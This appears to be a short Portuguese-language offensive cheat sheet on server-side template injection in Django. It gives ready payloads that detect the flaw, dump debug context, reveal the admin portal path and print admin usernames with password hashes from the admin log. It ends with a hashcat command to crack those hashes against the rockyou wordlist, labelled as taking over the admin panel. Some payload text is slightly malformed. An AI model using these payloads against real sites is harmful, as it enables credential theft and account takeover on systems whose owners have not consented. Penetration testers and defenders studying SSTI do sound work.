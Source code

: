 # Injeção de Modelo no Servidor

**Detecção:** <mark style="color:red;background-color:yellow;">\{% if 'ahsan' == 'ahsan' %\} a \{% endif %\}</mark>

**Depuração:** \{% debug %\}&#x20;

**Divulgando Portal do Admin:** \{% include 'admin/base.html' %\} <mark style="color:green;">= /secret-admin-portal</mark>



**Divulgando Credenciais:**

<pre><code>{% load log %} {% get_admin_log 10 <a data-footnote-ref href="#user-content-fn-1">as</a> log %} {% for e in log %}
{{e.user.get username}} : {{e.user.password}} {% endfor %}
</code></pre>



**Credenciais com hash do Django Descartadas**



**Descriptografado usando Hashcat:**&#x20;

hashcat -m 10000 hashed\_passwords rockyou. txt <mark style="color:green;">= Django Admin Panel Pwn</mark>

[^1]: 
